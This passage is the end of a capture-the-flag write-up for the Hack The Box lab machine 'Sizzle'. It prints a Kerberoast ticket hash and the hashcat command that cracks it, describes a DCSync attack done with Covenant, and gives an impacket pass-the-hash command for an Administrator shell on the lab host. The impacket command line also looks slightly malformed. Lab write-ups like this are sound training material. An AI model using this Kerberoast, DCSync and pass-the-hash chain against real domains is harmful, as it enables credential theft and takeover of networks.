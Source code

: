 ```markdown
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle*$00EEDBE52D6CEFE97F3C75A89F3CAB73$779AF 6953FFC7F37CCE7A7247DDE3039336F59C99D8C763A4C1B1DA1D3AFFE71DC6CBF90171C811C58280 DA2CF72B54F293CE846E1EE2AF120B16A0BBBDD25F2D4A2781D9C97AF071F9FDFFA07DA2D48908D7 89CBCF5C883765347EAE76C09BB576B138C08DEBBFCBFAB84D1E8D4C5E68DE6C69EF41894F170B2F 095C664339655C34FE2C1487884602137974A0E239412504D5A4FC6217D0DE247422AD3AA6719A12 BABD90CA963807DBF6C797ABBBC1C3028085EAA0D2D66E0F1261079D8FAA873513108485CA66C5D0 CAA247E57FBCA400D97FCE6CF86C78C719EA639D8A81EFC1ED31CEF083B49EB9E1F6A48FC61A0B4C 1586A4E657F31D0061BA44F166173DBDDF01A7411CC61AF8025153EE6D5D348A9E0DA746F3827C9B 8C1E7A1FD328834EE794C31F0B8072E69F75A958B3B323632773C2B6B6FAA529D2909B4648018139 14C06F42B71626E55A01FA5376B1B3CF4E2C828285B582D9A568D340B8436610F0D4D3C6F9D42F25 DDBBA4D6E21729C87427D2DFB4F9AB31E68ED1947A01F4CE19C7C4659E39EA6301B67399EE76E785 322DFB7025DCE49F2B9CFEBC5D881A357030656F07E37B26628369293A9AB7BA3B9F4BA7BCB612D1 83FD4D98EACC32220AB2DADB665272BE52CD6BE56E302BA1888A7A9761DFE82BE40ED05B87966820 5E0F2A6CBB3C9B38A3E053715EB09F4111A01BA81105E51A0D782FB700013BDAB704C3136FD22C91 BBE6CAD72A8D0B29E5D7F4724303D0EECD311BE8C43DC97D7FC46D18410676807FF5F66419118119 2592AE0ACE56ABDBCAAADC109240FC5F09CB485C238FE0B80539CFA19D45127EE3759D8962BE93A9 169904A28212AFBFA61C0AB542468A9141BDDD801EC1673C43288755BB5B7E099C756E22DB884B82 96AB163EF076CD32C3F34C7BED21DD48DE33E717EFAB0DC1AACFD8B1A781148656DF7177EC480F3E 08D1D17E0DAC1F802867288149B385BF6B04BA5202280143233D339B12599A9E2A4CF94D194CBF38 7BB7362C0D080806B2F4455C287C8041B72DFBB70A477014F03A6C56A63981E2A391C5FB3AB030DE 27C968D92AE8871789CD8CBD88A1D32C96976A5EDB16D7F5D4070AE2BA4ED335398AACFEA7D0C104 C6681CFAB943665A4B48AB6813E636347FA13EAB81D774605D5F5F6C05BBDDAC3604DEC967A9E9BB F80C8F3BA45462DA0395144DB20ABD98627F4436B6531EA3ECAA0ADC16AB4D8132FB773627A3EE6C DAAFD240C466F341F45046A6CFE0C5F274D5667496913EDA352652C802DF55B032957B97D35D8754 CA2B8A27BA498D0189F4199DD6E9DB7D9B1AAA76283966D8968F034952F98C499BB5EFED0808F6D3 4D84231C92078E0E8FCA3DD26D5381B86475944B7A4C64B8DEBDD6B8401F223 
```

Cracking it with Hashcat:
```markdown
hashcat -m 13100 mrlky.tgs /usr/share/wordlists/rockyou.txt
```

We have the password of Mrlky:
> Football#7

Now we do the DCSync attack with this user. First we create a token in Covenant for authentication and then the DCSync module on the user _Administrator_:

![Covenant MakeToken 2](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_cv-maketoken-2.png)

![Covenant DCSync](https://kyuu-ji.github.io/htb-write-up/sizzle/sizzle_cv-dcsync.png)

The NTLM hash of Administrator is:
> f6b7160bfc91823792e0ac3a162c9267

With that we can log in with _impacket-wmiexec_ from the **Impacket framework** into the box:
```markdown
impacket-wmiexec psexec.py Administrator@10.10.10.103 -hashes f6b7160bfc91823792e0ac3a162c9267:f6b7160bfc91823792e0ac3a162c9267
```

This starts a shell on the box as the user Administrator on the box and we can read the flags!
